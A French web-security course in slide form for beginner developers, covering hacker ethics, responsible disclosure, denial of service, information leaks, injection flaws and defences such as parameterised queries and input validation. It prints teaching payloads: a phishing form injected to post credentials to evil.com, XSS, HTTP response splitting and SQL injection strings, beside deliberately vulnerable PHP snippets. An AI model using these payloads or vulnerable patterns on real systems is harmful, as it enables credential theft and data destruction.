








# Introduction à la sécurité à l'attention des futurs développeurs web.

--------------------------------------------------------------------------------

# Pourquoi?

Demain, dans 6 mois, l'année prochaine, ou même peut-être hier, vous mettrez en ligne un site internet.
Ou bien on vous demandera de participer à la réalisation d'un de ces sites.

 * Êtes-vous capable de juger du niveau de sécurité de ce site?
 * Avez-vous respecté les bonnes pratiques du métier?
 * Saurez-vous poser les bonnes questions?
 * Est-ce que l'on va vous rappeler un dimanche matin à 2h du matin?

--------------------------------------------------------------------------------

# Pourquoi?

Mais aussi parce que réfléchir aux problématiques de la sécurité pour vos programmes:

  * est très formateur
  * vous demande de lire des documentations 
    * (et ce type de documents fera rarement partie des livres que vous aurez naturellement envie de lire)
  * est amusant

--------------------------------------------------------------------------------

# Amusant?

.notes: ...Oui

...

--------------------------------------------------------------------------------

# Amusant?

  * Voyez cela comme un **défi**
  * Trouver des **failles** dans un système est une pensée très proche de la pensée qui permet de concevoir ces systèmes. Mais c'est une pensée plus récréative.
  * Offrez des chocolats/bières à vos collègues
  * Payez des hackers (bounty)

Vous apprendrez beaucoup en étant d'un côté comme de l'autre.

Vous augmenterez le niveau de sécurité de façon **ludique** avant d'avoir à le faire dans l'urgence et dans des situations qui ne sont pas du tout agréables.

--------------------------------------------------------------------------------

# La sécurité?

Le domaine de la sécurité est très vaste. Il regroupe des éléments plus larges que ceux que nous aborderons pour la sécurité web:

 * les procédures humaines autour du système d'information
 * les failles dans le comportement humain (social engineering)
 * la sécurité matérielle, les accès physiques aux systèmes
 * la gestion des sauvegardes, de la redondance, de la résistance aux pannes
 * (...)

--------------------------------------------------------------------------------

# Le niveau juste

> Trop de sécurité tue la sécurité.

Quand le niveau de sécurité augmente, le **niveau de confort descend** (le plus souvent).

Si le niveau de sécurité en place est trop fort, les utilisateurs mettrons en place des moyens dérivés qui ruinerons le travail effectué.

Une fois que vous aurez acquis des connaissances en terme de sécurité, il faudra être capable de les doser et de les relativiser par rapport à une vision plus large du système d'information.

--------------------------------------------------------------------------------

# Le niveau juste

Il faut donc analyser votre application de façon globale

  * contenu dynamique/statique?
  * contributions privées/publiques?
  * code source public/privé?
  * réutilisation du code sur d'autres métiers?
  * hébergement privé/partagé
  * ...

Mais attention à ne pas sous-doser.

--------------------------------------------------------------------------------

# Les pédos-nazis de l'Internet

L'immense majorité des attaques informatiques *réussies* ne proviennent pas d'anonymes sur internet. Elles sont le plus souvent effectuées en **interne**, par vengeance, par frustration, etc.

En dehors des robots qui scannent l'intégralité du net à la recherche de failles connues, il ne faut pas négliger le potentiel de nuissance des utilisateurs *autorisés* de l'application. (Ce qui peut être aggravé aussi par les risques de mauvaises manipulations pour les rôles utilisateurs qui possèdent trop de droits).

--------------------------------------------------------------------------------

# Un cours sur la sécurité, donc.

--------------------------------------------------------------------------------

# Ethical Hacking

En terme de **sécurité informatique** le savoir est ouvert et disponible.

 * Il est facile d'acquérir très vite les principales connaissances
 * Ce savoir peut être utiliser pour **créer** et **réparer** (makers, hackers) ou pour **détruire** (manque de maturité, retard de développement social et individuel, lulz, etc.)
 * Peu d'enseignements officiels car ce double usage effraye
    

Du côté obscur de la force le chemin plus facile semble...

--------------------------------------------------------------------------------

# Ethical Hacking

Pour ma part j'espère que toutes les connaissances que vous réussirez à acquérir seront utilisées pour créer et non le contraire.dd

Devenir un expert dans le domaine peut devenir complexe car il faut pouvoir apréhender un grand nombre de domaines.

Mais il s'agit le plus souvent de recettes et d'habitudes à prendre, de contrôler des choses déjà compilées par vos pairs.

--------------------------------------------------------------------------------

# Hacker vs Cracker

Eric S. Raymond

 * [How to become a Hacker](http://www.catb.org/esr/faqs/hacker-howto.html)
 * [A brief history of hackerdom](http://www.catb.org/esr/writings/homesteading/hacker-history/)

> There is a community, a shared culture, of expert programmers and networking wizards that traces its history back through decades to the first time-sharing minicomputers and the earliest ARPAnet experiments. The members of this culture originated the term ‘hacker’. Hackers built the Internet. Hackers made the Unix operating system what it is today. Hackers make the World Wide Web work. If you are part of this culture, if you have contributed to it and other people in it know who you are and call you a hacker, you're a hacker.

> (...)

> There is another group of people who loudly call themselves hackers, but aren't. These are people (mainly adolescent males) who get a kick out of breaking into computers and phreaking the phone system. Real hackers call these people ‘crackers’ and want nothing to do with them. Real hackers mostly think crackers are lazy, irresponsible, and not very bright, and object that being able to break security doesn't make you a hacker any more than being able to hotwire cars makes you an automotive engineer. Unfortunately, many journalists and writers have been fooled into using the word ‘hacker’ to describe crackers; this irritates real hackers no end.

> The basic difference is this: hackers build things, crackers break them.

--------------------------------------------------------------------------------

# Hacker vs Cracker

Dans le domaine particulier de la sécurité on utilise souvent deux termes pour distinguer ces individus:
**Black Hat** et **White Hat**, la différence est la même que chez les magiciens.

Ce qui fera la différence en terme de respect et en **termes juridiques** sur vos contributions dans ce domaine tient en quelques principes très simples:

 * ne diffusez pas publiquement de failles de sécurité exploitables, pas même sur les bug trackers publiques du projet. Pas de **0 day**.
 * signalez-les aux équipes dédiées et laissez leur le temps d'analyser et de corriger le problème
 * soyez patients, ce temps peut être très long
 * la publication en désaccord avec les gestionnaires du projet peut exister mais doit être justifiable
 (non prise en compte de l'alerte, mise en danger des utilisateurs, etc.)

--------------------------------------------------------------------------------

# Black or White?

Les représentations manichéènnes du monde sont un peu simplistes. La réalité est souvent teintée de gris, le monde de la sécurité est peut-être même l'exemple type du **gris**, des faux-semblants.

--------------------------------------------------------------------------------

# Le développeur web dans tout ça

En tant que développeur web vous n'êtes pas obligé d'être un white hat ou un black hat.

Mais vous travaillez sur leur terrain de jeu.

--------------------------------------------------------------------------------

# Le développeur web dans tout ça

## Sérieusement

Votre serveur web peut être pris pour cible pour plusieurs raisons:

  * ses capacités en terme de calcul et d'accès au réseau (pour les spambots, des DDOS, du stockage de fichiers)
  * pour le plaisir
  * pour les données qu'il abrite 
    * les mots de passe des utilisateurs sont souvent identiques d'un site à l'autre
    * il se peut que certaines données ne soient pas destinées à être publiques
  * pour nuir, pour du chantage (un site rendu inaccessible par un DOS)
 
--------------------------------------------------------------------------------

# Le développeur web dans tout ça

## La connaissance

Si vous ne voulez pas vous apercevoir un matin que google à bloqué votre site ou que votre client vous apelle affolé, vous devez acquérir un minimum de connaissances en terme de sécurité.

La **difficulté** principale est de l'ordre de la connaissance

  * Connaissez-vous vraiment le protocole HTTP?
  * Maîtrisez-vous les différences subtiles entre un GET et un POST?
  * Savez-vous ce que fais jQuery.ajax()?
  * Connaissez-vous les cookies js? les cookies flash?
  * Savez-vous à quoi sert le fichier crossdomain.xml?
  * Saviez-vous que le svg pouvais contenir du javascript?
  * Comprenez-vous quelque chose à openid?

Le vecteur d'attaque utilisera sans doute un élément dont vous ignoriez l'existence.

--------------------------------------------------------------------------------

# Le développeur web dans tout ça

## La connaissance

Pour permettre aux développeurs de travailler sans imposer une formation professionelle de dix ans, les outils mis en place fournissent des **niveaux d'abstraction**.

Les failles de sécurité utilisent le plus souvent des **cas limites** de ces abstractions. Et si vous voulez progresser, il faudra toujours essayer de voir plus loin que les abstractions que vous manipulez. Effectivement, il n'y a pas de fin, mais cela fera de vous un meilleur développeur, jour après jour.

> All non-trivial abstractions, to some degree, are leaky 
--Joel Spolsky 
[The Law of Leaky Abstractions](http://www.joelonsoftware.com/articles/LeakyAbstractions.html)

 * Au passage je vous conseille aussi cet excellent article: [Making Wrong Code Look Wrong](http://www.joelonsoftware.com/articles/Wrong.html) du même auteur, (et l'ensemble du site en fait).
 * [voir aussi les 4 niveaux de compétence](http://en.wikipedia.org/wiki/Four_stages_of_competence), inconscient incompétent, conscient incompétent, conscient compétent, inconscient compétent
 * Ne sous-estimez pas la valeur du travail collaboratif, personne n'est en mesure de tout maîtriser
 
--------------------------------------------------------------------------------

# Robustesse et Rigueur
 
La grande différence entre du code produit par un débutant et celui produit par un développeur expérimenté réside souvent dans le niveau de rigueur.

    /*
     * Feed $arr with the bar key from $toto and arr['foo']
     */
    function foo($toto, &$arr) {
      $bar = $toto->tata . $arr['foo'];
      $arr['bar'] = $bar;
    }

Le code marche (il fait la tâche bizarre qui lui est demandé).

Mais s'il est utilisé en dehors du cadre pour lequel il a été pensé, il peut échouer de façon plus ou moins brutale. Cela va de la génération de WARNING (accès à une clef non existante) au crash complet (accès à un attribut inexistant).

--------------------------------------------------------------------------------

# Robustesse et Rigueur

> Be conservative in what you do, be liberal in what you accept from others

    /*
     * Feed the bar key of $arr array with $toto->tata and arr['foo']
     *
     * If toto->tata is not yet initialised defaults will be loaded
     *
     * @param ZooInterface $toto Main Zoo object
     * @param array $arr array used by reference, result in case of success is in arr['bar']
     * @throws FooException
     */
    function foo(ZooInterface $toto, &$arr) {
      if (!(is_array($arr)) || !array_key_exists('foo',$arr)) {
        throw new FooException('Second argument of foo should be an array with the foo key already set');
      }
      try {
          if (!isset($toto->tata)) {
            $toto->tata = ZooBase::loadTataDefaults();
          }
          (...)

--------------------------------------------------------------------------------

          (...)
          $bar = $toto->tata . $arr['foo'];
          if (array_key_exists('bar',$arr)) {
            if ($bar === $arr['bar']) {
              $this->log('bar key was already set and is unaltered while running foo.')
            } else {
              throw new FooAlterationException('found a bar kay with a different value while running foo');
            }
          } else {
            $arr['bar'] = $bar;
          }
      } catch (Exception $e) {
        throw new FooException('Foo was unable to make the job!', $e);
      }
    }

> Always wanted to travel back in time to try fighting a younger version of yourself? Software development is the career for you!
 - twitter: Elliot Loh @Loh

--------------------------------------------------------------------------------

## Robustesse et Tricherie

La robustesse est importante en terme de sécurité parce que l'attaquant **ne va pas respecter les règles.**

## Un code peu robuste est non sécurisé

Un des aspects important de l'attaque de sécurité est l'utilisation du code et des outils qui sont en place en les **détournant** (hijacking).
L'attaquant se sert de tout ce qui est présent et en détourne l'usage.

 * Toute erreur qui démontre une **absence de robustesse** est potentiellement un vecteur d'attaque

De la même manière qu'en mathématiques, la phrase magique *"Si x est différent de 0"* devait devenir un mode de pensée obligatoire, le développeur devrait toujours penser aux **cas limites**, à ce qui arrive quand le contrat n'est pas respecté, quand on ne respecte pas les règles.

--------------------------------------------------------------------------------

# Les Failles

--------------------------------------------------------------------------------

## Pour se faire peur

Quelques exemples de dénominations d'attaques tirés de **[owasp.org](http://www.owasp.org)**

  * Account lockout attack
  * Asymmetric resource consumption (amplification)
  * Brute force attack
  * Buffer overflow attack
  * Cache Poisoning
  * Cash Overflow
  * Code Injection
  * Command Injection
  * Comment Injection Attack
  * Content Spoofing
  * Cross Frame Scripting
  * Cross Site Tracing
  * Cross-Site Request Forgery (CSRF)

--------------------------------------------------------------------------------

  * Cross-site Scripting (XSS)
  * Cross-User Defacement
  * CSRF
  * Custom Special Character Injection
  * Denial of Service
  * Direct Dynamic Code Evaluation ('Eval Injection')
  * Direct Static Code Injection
  * Double Encoding
  * Execution After Redirect (EAR)
  * Forced browsing
  * Format string attack
  * Full Path Disclosure
  * HTTP Request Smuggling
  * HTTP Response Splitting
  * LDAP injection

--------------------------------------------------------------------------------

  * Man-in-the-middle attack
  * One-Click Attack
  * Overflow Binary Resource File
  * Page Hijacking
  * Path Manipulation
  * Path Traversal
  * Reflected DOM Injection
  * Regular expression Denial of Service - ReDoS
  * Relative Path Traversal
  * Repudiation Attack
  * Resource Injection
  * Server-Side Includes (SSI) Injection
  * Session fixation
  * Session hijacking attack
  * Session Prediction

--------------------------------------------------------------------------------

  * Setting Manipulation
  * Special Element Injection
  * SQL Injection
  * Traffic flood
  * XPATH Injection
  * XSRF

--------------------------------------------------------------------------------

Et quelques grandes catégories:

  * Abuse of Functionality
  * Data Structure Attacks
  * Embedded Malicious Code
  * Exploitation of Authentication
  * Injection
  * Path Traversal Attack
  * Probabilistic Techniques
  * Protocol Manipulation
  * Resource Depletion
  * Resource Manipulation
  * Sniffing Attacks
  * Spoofing

--------------------------------------------------------------------------------

# Classifier les failles

  * [CVE](http://cve.mitre.org/) : **C**ommon **V**ulnerability **E**xposure

Diffuser l'information pour mieux se protéger, mais aussi pour en comprendre les impacts:

  * Impact sur la confidentialité
  * Impact sur l'intégrité des données
  * Impact sur la disponibilité
  * Complexité d'accès
  * Authentification requise?
  * Escalade de privilèges?
  * Type de vulnerabilité

  * [CVE-1999-1293](http://cvedetails.com/cve/CVE-1999-1293/)
  * [CVE-2013-1643](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-1643)
--------------------------------------------------------------------------------

# Les principales Failles

--------------------------------------------------------------------------------

# Les principales Failles

## Déni de Service

## Information Disclosure

## Injection

--------------------------------------------------------------------------------

# Déni de service - DOS

Le site web est rendu inaccessible, ce qui ouvre la voie aux concurrents ou au chantage. Il y a plusieurs vecteurs:

  * monopolisation des ressources (sockets, mémoire, processus serveur, disque dur, etc)
  * traitements trop longs (donc monopolisation du CPU)
  * destruction des ressources (crash serveur)
  * autres (cache poisonning, DNS poisoning, ...)

--------------------------------------------------------------------------------

# Déni de service - DOS

Une variante : le DDOS, déni de service distribué ; la charge d'attaque est répartie sur un grand nombre de machines qui sont alors plus difficiles à bloquer.

Du côté du développeur web, on pense souvent qu'il n'y a pas grand chose à faire, que c'est essentiellement aux couches d'administration système de trouver des parades. Mais en réalité un excès de confiance dans les paramètres recus par le programme est souvent en cause.

--------------------------------------------------------------------------------

# Information Disclosure

On parle ici de fuites d'informations. Faire fuir des information c'est par exemple afficher les messages d'erreur à l'utilisateur.

Une simple recherche goole sur "Notice undefined index in /var/www" me renvoit sur ce site:

Je connais dès lors le langage mais aussi les chemins réels sur le disque (et je peux estimer sans trop de riques que le site n'est pas très sécurisé).

Il est souvent très utile de connaitre ces chemins pour retrouver les chemins relatifs vers les fichiers intéressants comme /etc/passwd.

--------------------------------------------------------------------------------

# Information Disclosure

Mais ces informations qui aident vos attaquants se cachent à de multiples endroits:

Ici, nous avons la version d'Apache httpd, la version de PHP, l'OS (gentoo) et même la version d'OpenSSL.

--------------------------------------------------------------------------------

# Information Disclosure

Comparez avec les entêtes du site reddit

    $ curl -I www.reddit.com
    
    HTTP/1.1 200 OK
    Content-Type: text/html; charset=UTF-8
    x-frame-options: SAMEORIGIN
    x-content-type-options: nosniff
    x-xss-protection: 1; mode=block
    Server: '; DROP TABLE servertypes; --
    Date: Mon, 09 Jun 2014 16:09:39 GMT
    Connection: keep-alive
    Vary: accept-encoding

--------------------------------------------------------------------------------

# Information Disclosure

Retenez:

  * Il ne faut pas faciliter la tâche à votre assaillant
  * Ne lui donnez pas la liste des failles qu'il peut tenter
  * Un serveur qui "parle" trop incite l'assaillant à tenter plus de choses, cela démontre un faible niveau de sécurité
  * Chaque information peut-être réutilisée (pensez social engineering)
  * Si vous affichez des informations inutiles, pensez à tromper votre assaillant

--------------------------------------------------------------------------------

# Injection

> Presque toutes les failles sont des failles d'injection, si on veut.
-- Moi.

En mieux:

> SQL injection is a special case of syntax tree mutation. *All* languages are susceptible to it, and everything is a langage. #langsec
 - twitter: active wreck chords @jcoglan

--------------------------------------------------------------------------------

## Injection - HTML

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci::

    !html
     What?"><h1>Oups</h1><input type="checkbox

Et le résultat:

    !html
    <input type="text" name="search" value="What?">
    <h1>Oups</h1>
    <input type="checkbox">

--------------------------------------------------------------------------------

## Injection - HTML

Pas grave? essayez:
    !html
    ">
</form>
    <form method="POST" action="http://www.evil.com">
      
Please re-enter you credentials

      <label>Login:</label>
        <input type="text">
      <label>Mot de passe:</label>
        <input type="password">
    

    <foo "

Et vous avez un formulaire de login détourné vers un autre site.

--------------------------------------------------------------------------------

## Injection - Javascript

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci:

    !html
     What?" onLoad="alert('xss');"><input type="checkbox

Et le résultat::

    !html
    <input type="text" name="search" value="What?"
     onLoad="alert('xss');">
    <input type="checkbox">

En javascript on peut faire **tout** ce qui est imaginable en HTML, et **plus encore**. Détourner du contenu, poster des requêtes de façon transparentes, charger d'autres sources javascript depuis d'autres sites, etc.

Le **XSS** (Cross Site Scripting) est votre pire ennemi.

Les moteurs de **recherches** dans les sites et les codes 'SEO' sont très souvent sensibles.

--------------------------------------------------------------------------------

## Injection - Javascript

    !html
    ">

Obtenez ceci:

    !html
     

Qui signifie:

    !html
    

  * [Quelques autres examples](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
  * [d'autres failles plus récentes](http://html5sec.org/)

--------------------------------------------------------------------------------

## Injection - HTTP

### GET et POST : ce n'est pas la même chose

Ils sont tous les deux manipulables, de ce point de vue là, pas de différences. Mais:

> GET est **indempotent**

  * Une requêtes GET peut être rejouée n fois sans risques
  * Une requête GET ne doit jamais conduire à une modification du SI
  * Ce serait bien pratique parfois?
    * Passez par une confirmation via formulaire puis POST
    * Ou bien utiliser du javascript et de l'ajax pour passer une requête POST

Il y a des liens GET partout dans une page, et le navigateur les charge sans vous demander, il peut même le faire depuis un site distant.

    !html
     <!-- dans un commentaire c'est #?!^" -->
     <!-- pour l'admin... -->

--------------------------------------------------------------------------------

## Injection - HTTP

En exemple en rapport avec les techniques de **poisonning**, que l'on classifie dans le HTTP Response splitting:

    !php
    <?php
    // Set the Location Header for our redirect 302 page
    header ("Location: " . $_GET['page']); ?>

La requête contient alors du contenu qui contient lui-même des entêtes HTTP

    !html
    GET http://testsite.com/redir.php?site=%0d%0aContent-
    Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
    Modified:%20Mon,%2027%20Oct%202019%2014:50:18%20GMT%0d%0aConte
    nt-Length:%2020%0d%0aContent-
    Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*

Cet exemple est difficile à comprendre, mais c'est un bon exercice.
Essayez de deviner ce qui arrive dans la réponse...

--------------------------------------------------------------------------------

## Injection - HTTP

La réponse ressemblera à ceci

    HTTP/1.1 302 Redirect
    Date: Mon, 09 Jun 2014 20:58:36 GMT
    Server: Apache
    Vary: Accept-Encoding, Cookie
    Connection: Keep-Alive
    Content-Type: text/html; charset=UTF-8
    Location:
    Content-Length: 0
    
    HTTP/1.1 200 OK
    LastModified: Mon, 27 Oct 2019 14:50:18 GMT
    Content-Length: 20
    Content-Type: text/html
    
    <html>deface!</html>

Il y a deux réponses, la première fait une taille de 0, la seconde une taille de 20 et contient le contenu HTML injecté.
S'il y a un serveur de cache devant ce serveur et si vous enchaînez une autre requête dans cette même connection TCP/IP vous pouvez forcer le contenu de la réponse à cette nouvelle requête à ce "deface:". Il faut jouer avec les entêtes de gestion de validité des pages pour les différents serveurs de cache. 

--------------------------------------------------------------------------------

## Injection - HTTP

En l'occurence, sur des versions récentes de PHP, il est impossible d'injecter un retour à la ligne dans un Header HTTP. Ce n'est pas le cas dans tous les languages.

Il existe aussi des variantes encore plus complexes qui jouent sur les différences d'interprétation de requêtes HTMl mal formées entre les serveurs proxys et les serveurs webs.

L'exemple est complexe car il joue sur un niveau d'abstraction que peu de gens connaissent, le protocole HTTP, les serveurs cache, mais il repose sur une confiance aveugle dans le code à un paramètre reçu du client HTTP (l'argument *page*).

Source de l'exemple: [OWASP](https://www.owasp.org/index.php/Cache_Poisoning)

--------------------------------------------------------------------------------

## Injection - SQL

Revenons à un cas simple. La plus connue. L'injection SQL.

Le cas classique est un formulaire de login, le programme reçoit deux arguments depuis une requête POST:

  * le login utilisateur
  * le mot de passe utilisateur

Et il fait une requête SQL pour vérifier que les deux correspondent ... d'une horrible manière:

    !php
    $login = $_POST['login']; $password = $_POST['password'];
    $sql = "SELECT id FROM users WHERE `login`='$login'";
    $sql .= " and `password`=PASSWORD('$password')";
    $result = $db->query($sql);
    if (count( $result) > 0) {
        (...)

Le jeu consiste alors à insérer du SQL dans la requête ...

--------------------------------------------------------------------------------

## Injection - SQL

    !html
        login      admin
        password   ') OR '1' = '1

Ou encore

    !html
        login      '; DROP table users --

L'injection SQl est très connue car elle est puissante. Elle permet de passer outre les **sécurités d'accès**, de **détruire** ou de modifier des données (UPDATE, INSERT, DELETE, TRUNCATE) voir d'**extraire n'importe quelle information** de la base (requêtes UNION, requête sur information_schema, time-based attacks).

Il existe des moyens de s'en protéger. Certains sont bons, d'autres sont très bons, d'autres très mauvais.
Nous allons regarder en détails certaines de ces méthodes pour mieux appréhender le chapitre suivant qui parlera justement des protections.

--------------------------------------------------------------------------------

## Injection - SQL

### Méthode 0: échapper les quotes (houuuu)

    !php
    "SELECT id FROM users WHERE `login`='"
      . addslashes($login)
      . "' and `password`=PASSWORD('"
      . addslashes($password)
      . "')";

Ceci transforme les quotes ' en \'. C'est **très insuffisant**.

### Méthode 1: utiliser les échappements officiels

    !php
    "SELECT id FROM users WHERE `login`='"
      . mysql_real_escape_string($login, $db)
      . "' and `password`=PASSWORD('"
      . mysql_real_escape_string($password, $db)
      . "')";

> mysql_real_escape_string() appelle la fonction mysql_escape_string() de la bibliothèque MySQL qui ajoute un anti-slash aux caractères suivants : NULL, \x00, \n, \r, \, ', " et \x1a.

--------------------------------------------------------------------------------

## Injection - SQL

### Méthode 2: utiliser les requêtes paramétrées

C'est une protection ultime (tant que la librairie qui abstrait votre connexion à la base fait bien ce qu'elle prétend faire).

    !php
    $sql = "SELECT id FROM users WHERE `login`=:login"
    $sql .= " and `password`=PASSWORD(:pwd)";
    $args = array(
      'login' => $_POST['login'],
      'pwd' => $_POST['password']
    );
    $result = $db->query($sql, $args);

Le moteur SQL reçoit d'un côté la requête SQL et de l'autre les arguments à insérer dans cette requête.

La requête est compilée sous la forme d'un arbre d'éxecution **AVANT** que les arguments ne soient ajoutés dans cette requête.
Ces arguments ne pourront donc **JAMAIS** être eux-mêmes interprétés comme du SQL.

Pas d'injection!

--------------------------------------------------------------------------------

## Injection - SQL

Et comme on n'est jamais assez prudent, on peut aussi bâtir du SQl incassable à des endroits clefs comme le login. Ceci est la requête SQL générée par la librairie Zend Framework:

    !sql
    SELECT *, (CASE WHEN password = 'user \'password'
       THEN 1 ELSE 0 END) AS zend_auth_credential_match
    FROM users
    WHERE name = 'user\' name';

Et ceci est un extrait du code qui produit cette requête:

    !php
    $credentialExpression = new Zend_Db_Expr(
        '(CASE WHEN ' .
        $this->_zendDb->quoteInto(
            $this->_zendDb->quoteIdentifier(
              $this->_credentialColumn, true
            )
            . ' = ' 
            . $this->_credentialTreatment
          , $this->_credential
          )
        . ' THEN 1 ELSE 0 END) AS '
        . $this->_zendDb->quoteIdentifier(
            $this->_zendDb->foldCase('zend_auth_credential_match')
          )
        );

--------------------------------------------------------------------------------

## Injection - SQL

    !php
      // get select
      $dbSelect = clone $this->getDbSelect();
      $dbSelect->from(
            $this->_tableName, 
            array('*', $credentialExpression)
        )
       ->where($this->_zendDb->quoteIdentifier(
            $this->_identityColumn, true) . ' = ?',
            $this->_identity
      );

Un code **robuste**, plus verbeux sans doute. Une requête complexifiée. Mais elle est située à un endroit clef en terme de sécurité.

Il y a cependant un piège dans cette requète:

    !sql
    SELECT *, (CASE WHEN password = 'user \'password'
       THEN 1 ELSE 0 END) AS zend_auth_credential_match
    FROM users
    WHERE name = 'user\' name';

--------------------------------------------------------------------------------

## Injection - SQL

La méthode "_credentialTreatment" n'est sans doute pas définie et la requête se fait en comparant le mote de passe **en clair**.

Il ne devrais **jamais** exister de mots de passe stockés en clair dans une base de donnée. **Jamais**.

--------------------------------------------------------------------------------

# Se Protéger

--------------------------------------------------------------------------------

# Se Protéger

## Entrées et Sorties

## Sécurité en profondeur

## Blindage de configuration

--------------------------------------------------------------------------------

# Entrées et Sorties

## Principe du KISS

 * **K**eep **I**t **S**tupid **S**imple

Décomposez les tâches complexes en sous-ensemble simples, appréhendables

## Boîte Noire, Flux In flux Out

Chacune de ces tâches peut être vue comme une boîte qui accepte des entrées et génère des sorties:

--------------------------------------------------------------------------------

## Boîte Noire, Flux In flux Out

La boîte noire se décompose elle-même en un sous-ensemble de boîtes qui interagissent. Il y a des flux entrants et sortants pour chacune.

Ce principe est aussi applicable à l'ensemble. 

--------------------------------------------------------------------------------

# Validez les entrées

--------------------------------------------------------------------------------

# Filtrez les sorties

--------------------------------------------------------------------------------

## Validez les entrées

 * Rejetez ce que vous pouvez
 * La plus simple des entrées est un entier
Exemple :

    $foo = (int) $_GET['foo'];

 * Vérifiez les tailles min/max
 * Utilisez des listes blanches si possible

        if ( ! in_array($_GET['foo'],array('red','green','blue'))) {

 * Essayez de rester dans l'ascii7 agrémenté de quelques caractères (-,_)

--------------------------------------------------------------------------------

## Validez les entrées

 * Le texte brut est par nature complexe (encoding utf-8?)

 * Si vous souhaitez dès la validation des entrées n'accepter qu'un sous ensemble du HTML, faites très attention aux expressions régulières
 [HTML can't be parsed by regex](http://stackoverflow.com/questions/1732348/regex-match-open-tags-except-xhtml-self-contained-tags/1732454#1732454)
 * faites attention aux messages de rejets, c'est peut-être ce message d'erreur qui est ciblé par le contenu.

source XKCD: [http://www.xkcd.com/1137/](http://www.xkcd.com/1137/)

--------------------------------------------------------------------------------

## Filtrez les sorties

Les règles d'**échappement** sont propres à chaque sortie et visent à éviter le principe des attaques par **injection**.

 * Une page HTML est composée de balises HTML, le caractère dangereux est donc **'<'**, mais ce n'est pas le seul, vous devez passer par l'encodage de caractères HTML ('<' => &amp;lt; 'é' => &amp;eacute;)
 * Une url possède un certain nombre de caractères particuliers, il faut passer par l'**encodage d'URL** (espace => %20, '=' => %3D, etc.)
 * Un fichier csv possède des caractères séparateurs (',' souvent), des délimiteurs parfois (comme "), ne gère par les retours à la ligne, etc. Il faut gérer ces éléments dans votre filtre de sortie
 * Un nom de fichier sur disque possède des limitations propres à l'OS (et attention aux '..') .
 * Vous communiquez avec le SGBD en SQL, le SQL a ses propres échappements, le plus connu est "\'" pour la quote "'".

Le point important est que ces filtrages sont **propres à chaque sortie**, ils ne doivent normalement pas être effectués à la validation, en entrée, puisqu'ils sont différents en fonction des canaux de sortie.

Une sortie non ou mal filtrée est la base de la majorité des attaques de sécurité dans le domaine du web.

--------------------------------------------------------------------------------

# Validate INPUT, filter OUTPUT

Si vous ne devez retenir que deux choses retenez ces éléments là.

**Validation** des entrées, **filtrage** des sorties.

Face à un projet essayez d'identifier très vite les éléments qui servent à ces deux tâches. Dans certains projets, les dénominations et l'organisation des classes rendent ces éléments évidents, comme dans [Zend Framework](http://framework.zend.com/manual/1.12/fr/zend.filter.input.html). Mais cela est parfois plus complexe.

On trouve le vocabulaire **escape** pour les sorties. On trouve souvent un premier niveau de filtrage dès la validation des entrées. Mais pas toujours...

Beaucoup de projets rendent ces éléments complexes à identifier (exemple type: [wordpress](http://stackoverflow.com/questions/9404505/why-does-wordpress-still-use-addslashes-register-globals-and-magic-quotes)). Les risques sont alors multiples, double filtrage, validations insuffisantes, filtrages invalides, etc. On trouve alors de nombreux modules très mal écrits en terme de sécurité et qui deviennent autant de failles potentielles.

--------------------------------------------------------------------------------

# Un projet peut être très mauvais en terme de sécurité et avoir du succès.

Ne surestimez pas vos pairs, encore moins les utilisateurs, et surtout, pensez aux commerciaux.
